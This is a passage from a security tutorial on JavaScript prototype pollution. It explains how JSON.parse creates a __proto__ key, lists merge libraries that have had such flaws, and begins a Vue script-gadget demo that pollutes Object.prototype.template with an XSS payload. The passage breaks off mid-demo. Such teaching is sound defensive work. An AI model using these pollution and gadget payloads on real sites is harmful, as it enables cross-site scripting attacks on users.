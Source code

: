 The reason why `JSON.parse` is used here is that if you write it directly like this:

``` js
var customConfig = {
  __proto__: {
    a: 1
  }
}
```

it won't work, `customConfig` will only be an empty object. You need to use `JSON.parse` to create an object with a key of `__proto__`:

``` js
var obj1 = {
  __proto__: {
    a: 1
  }
}
var obj2 = JSON.parse('{"__proto__": {"a": 1}}')
console.log(obj1) // {}
console.log(obj2) // { __proto__: { a: 1 } }
```

Similarly, many merge-related libraries have had this vulnerability, such as:

1. [merge](https://snyk.io/vuln/SNYK-JS-MERGE-1040469)
2. [lodash.merge](https://snyk.io/vuln/SNYK-JS-LODASHMERGE-173733)
3. [plain-object-merge ](https://snyk.io/vuln/SNYK-JS-PLAINOBJECTMERGE-1085643)

In addition to these, basically any library that operates on objects has had similar problems, such as:

1. [immer](https://snyk.io/vuln/SNYK-JS-IMMER-1019369)
2. [mootools](https://snyk.io/vuln/SNYK-JS-MOOTOOLS-1325536)
3. [ioredis](https://snyk.io/vuln/SNYK-JS-IOREDIS-1567196)

Now that we know where prototype pollution problems are likely to occur, it is not enough to just contaminate properties on the prototype. We also need to find places that can be affected, that is, which places will change behavior after the properties are contaminated, so that we can execute the attack.

## Prototype pollution script gadgets

These "code that can be exploited as long as we pollute the prototype" are called script gadgets. There is a GitHub repo that collects these gadgets: [Client-Side Prototype Pollution](https://github.com/BlackFan/client-side-prototype-pollution). Some gadgets may be unimaginable, let me demonstrate ([demo webpage](https://aszx87410.github.io/demo/prototype-pollution/vue.html)):

``` html
<!DOCTYPE html>

<html lang="en">
<head>
  <meta charset="utf-8">
  <script src="https://unpkg.com/vue/dist/vue.js"></script>
</head>
<body>
  <div id="app">
    {{ message }}
  </div>
  <script>
    // 污染 template
    Object.prototype.template = '<svg onload=alert(1)></svg>';
    var app = new Vue({ 
      el: '#app',
      data: {
        message: 'Hello Vue!'
```